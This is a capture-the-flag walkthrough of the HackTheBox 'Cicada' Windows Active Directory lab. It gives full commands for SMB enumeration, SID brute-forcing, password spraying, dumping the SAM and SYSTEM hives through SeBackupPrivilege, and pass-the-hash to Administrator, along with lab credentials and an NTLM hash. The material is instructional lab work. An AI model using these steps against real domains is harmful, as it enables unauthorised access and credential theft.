


# 🧠 HackTheBox - Cicada Walkthrough


## 📚 Table of Contents
<!-- toc -->
- [🧠 HackTheBox - Cicada Walkthrough](#-hackthebox---cicada-walkthrough)
  - [📚 Table of Contents](#-table-of-contents)
  - [Overview](#overview)
  - [About](#about)
  - [TL;DR](#tldr)
  - [SETUP / NOTES](#setup--notes)
  - [RECON](#recon)
  - [ENUMERATION](#enumeration)
    - [SMB Enumeration](#smb-enumeration)
    - [AD User Enumeration](#ad-user-enumeration)
    - [Password Spray](#password-spray)
    - [User Enumeration as Michael](#user-enumeration-as-michael)
  - [EXPLOIT](#exploit)
    - [Accessing Shares as David](#accessing-shares-as-david)
    - [WinRM Shell as Emily](#winrm-shell-as-emily)
  - [PRIVILEGE ESCALATION](#privilege-escalation)
    - [Pass-the-Hash → SYSTEM Shell](#pass-the-hash--system-shell)
  - [LESSONS LEARNED](#lessons-learned)
  - [REFERENCES](#references)
<!-- tocstop -->


## Overview

**Machine:** Cicada

**Difficulty:** Easy

**OS:** Windows

**Points:** 0

**Release Date:** 17 January 2025

**Status:** Retired

## About

Cicada is a beginner-friendly Windows Active Directory machine that introduces several essential AD pentesting techniques, including user enumeration, password spraying, SMB share enumeration, and privilege escalation via the SeBackupPrivilege.

## TL;DR

- Enumerate SMB anonymously, find default password in HR share
- Use password spraying to get access as `michael.wrightson`
- Enumerate more users, find stored password in AD description field for `david.orelious`
- Access DEV share, download PowerShell script, leak `emily.oscars` credentials
- WinRM shell as Emily → abuse SeBackupPrivilege
- Dump SAM + SYSTEM hives, extract Administrator NTLM hash
- Pass-the-hash → SYSTEM access via Evil-WinRM

## SETUP / NOTES

Tools used:

- Nmap
- smbclient
- crackmapexec
- impacket-lookupsid
- evil-winrm
- impacket-secretsdump

##  RECON

Initial scan reveals it's a Windows Domain Controller:

```
# Nmap 7.94SVN scan initiated Fri Oct  3 11:34:51 2025 as: nmap -sC -sV -p53,88,135,139,445,464,593,636,3268,3269,5985,61499 -oN - -oX ./nmap-scans/nmap_10.129.102.130_1e5d6f58_20251003_113306.xml 10.129.102.130
Nmap scan report for 10.129.102.130
Host is up (0.0099s latency).

PORT      STATE SERVICE       VERSION
🟢53/tcp    open  domain        Simple DNS Plus
🟢88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-03 18:34:57Z)
🟢135/tcp   open  msrpc         Microsoft Windows RPC
🟢139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
🟢445/tcp   open  microsoft-ds?
🟢464/tcp   open  kpasswd5?
🟢593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
🟢636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: 2025-10-03T18:36:27+00:00; +7h00m01s from scanner time.
🟢3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-10-03T18:36:27+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
🟢3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: 2025-10-03T18:36:27+00:00; +7h00m01s from scanner time.
🟢5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
🟢61499/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2025-10-03T18:35:47
|_  start_date: N/A
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct  3 11:36:26 2025 -- 1 IP address (1 host up) scanned in 95.86 seconds
# Nmap 7.94SVN scan initiated Fri Oct  3 11:36:26 2025 as: nmap -sU --top-ports 100 -oN - 10.129.102.130
Nmap scan report for 10.129.102.130
Host is up (0.010s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
🟢53/udp  open  domain
🟢88/udp  open  kerberos-sec
🟢123/udp open  ntp

# Nmap done at Fri Oct  3 11:36:28 2025 -- 1 IP address (1 host up) scanned in 1.92 seconds
```

Ports like 88 (Kerberos), 389/636 (LDAP/LDAPS), and 445 (SMB) are open. Hostname is `CICADA-DC`, domain is `cicada.htb`. Let's echo `cicada.htb` to our /etc/hosts witth `echo "10.10.11.35 cicada.htb" | sudo tee -a /etc/hosts`

##  ENUMERATION

### SMB Enumeration

Let's start trying if we can see the shares with `smb` without a user.

```bash
crackmapexec smb cicada.htb --shares
```


Anonymous access denied. Try guest account:

```bash
crackmapexec smb cicada.htb -u guest -p '' --shares
```


Accessible shares: `HR` with `READ` permission.

Noted, we can read the `HR` group with the guest account. What we do now is use `smbclient` to log in as guest and inspect what `HR` holds.

```
smbclient //cicada.htb/HR
```

Using `guest` as the password, we log in as guest!


Using `dir` is the same as `ls` and makes us list the directory. It has one valuable file in there: `Notice from HR.txt`. Let's extract that file and look what is in it!

```bash
get "Notice from HR.txt"
```

use the double qoutes "" to elimate the spaces between the words.

This is inside the file

```
Dear new hire!


Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.


Your default password is: Cicada$M6Corpb*@Lp#nZp!8


To change your password:


1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.

2. Once logged in, navigate to your account settings or profile settings section.

3. Look for the option to change your password. This will be labeled as "Change Password".

4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.

5. After changing your password, make sure to save your changes.


Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.


If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.


Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!


Best regards,

Cicada Corp
```

📄 **Password found**: `Cicada$M6Corpb*@Lp#nZp!8`

---

### AD User Enumeration

We have a password, but no users. We can't apply the password. A usefull tool called `Lookupsid` will try to brute force the `Windows Security Identifiers` or better called `SIDs` of any users in the domain. Each user has a unique SID. To enumerate the domain, we will specify the guest user and `-no-pass` because we have no password.

```bash
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass
```


That is alot of info. But at the bottom we can see some of the users already. But you better be sure that there are more users then `john, sarah, micheal` etc we will run it again, only we will grep the `SidTypeUser` because we only want the users and with `sed` we will remove any text other then the names that we want, and then forward it into `users.txt`.

```bash
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass | grep 'SidTypeUser' | sed 's/.*\\\(.*\) (SidTypeUser)/\1/' > users.txt
```


---

### Password Spray

Now that we have the users saved in `users.txt`, it is a bit repetitive to apply the password we found to every user to see if it works. That's why we are going to **password spray** with `crackmapexec`.

Let's try to log into cicada.htb with the list of users and the default password that we found.

```bash
crackmapexec smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```


✅ Successful login: `michael.wrightson`

---

### User Enumeration as Michael

So Michael hasen't changed his default password yet. That's great! With that we will check if Michael has acces to any other shares.


Unfortunately Michael doesn't have acces to any of the other shares. But we can use his acces to look for other users on the machine.

```bash
crackmapexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```


Found in AD description:
🗝️ `david.orelious : aRt$Lp#7t*VQ!3`

##  EXPLOIT

### Accessing Shares as David

Great! So David used a great place to store his password. With that we will check which `shares` he has acces to.

```powershell
crackmapexec smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```


David has more rights, he has `READ` permissions in the `DEV` share! We will immediately log in `smbclient` with the `DEV` share as David.

```powershell
smbclient //cicada.htb/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'
```


Lets `get` the Backup file and see what is in it.

```bash
get Backup_script.ps1
```

📄 Backup script contains:

```
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Backup sorted this is what we need

```powershell
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt"
```

---

### WinRM Shell as Emily

let's be sure and check Emily her shares.

```powershell
crackmapexec smb cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' --shares
```


Emily has the permissions we want, `ADMIN$`. Remote Admin.

Let's go all in, we will use `evil-winrm` to log in the system as `emily`.

```bash
evil-winrm -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -i cicada.htb
```


We are inside! Let's grab the `user flag`.

```
cd ..
cd Desktop
cat user.txt
```



🎉 Access to user flag.

##  PRIVILEGE ESCALATION

As you may have seen in the user flag above, there is more then `user.txt`. We have `sam` and `system` in there aswell.

- The SAM (Security Account Manager) hive contains local user account and group membership
  information, including their hashed passwords.

- he SYSTEM hive contains system-wide configuration settings, such as the system boot key
  required to decrypt the password hashes stored in SAM .

let's check if Emily has `SeBackupPrivilege`:

```bash
whoami /priv
```



We see that she has the `SeBackupPrivilege`, often given to service or administrative users. It enables acces to `system-protected` files while bypassing other permissions. A user account should **not** be granted this privilege as they have acces to sensitive files such as we have seen already `SYSTEM` and `SAM`.

We can use these to dump `NLTM` hases, so we can use the `Administrator` hash isntead of a password.

Before we can download the files, we will use the `reg save` command to perform a command in the registry, specify the location of
the hive, and save it to a file in the current directory with the appropriate name.

```
reg save hklm\sam sam
reg save hklm\system system
```

Now you can just download both files by using `Evil-winRM's` command:

```powershell
download sam
download system
```


And now when you `exit` the `Evil-winRM` you can check with `ls` if the files are present.

Now, lets dump the hashes locally:

```bash
impacket-secretsdump -sam sam -system system local
```

This is what came out of the dump. Alof of information but remember we want the `Administrator` `NTLM` hash. The hash is the last bit of the line.

```
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

NTLM hash for Administrator:

```
2b87e7c93a3e8a0ea4a581937016f341
```

---

### Pass-the-Hash → SYSTEM Shell

Now we `Evil-winRM` back in as the `Administrator` as user, and the `NTLM` hash as password

```bash
evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
```


🎉 Rooted!

##  LESSONS LEARNED

- SMB shares are often a good first step
- Default credentials may be reused across accounts
- Always check AD user descriptions
- SeBackupPrivilege is a powerful and dangerous privilege
- Impacket is a must-have for Windows domain machines

##  REFERENCES

- https://book.hacktricks.xyz/windows-hardening/privilege-escalation/sebackupprivilege
- https://github.com/SecureAuthCorp/impacket
- https://github.com/Hackplayers/evil-winrm
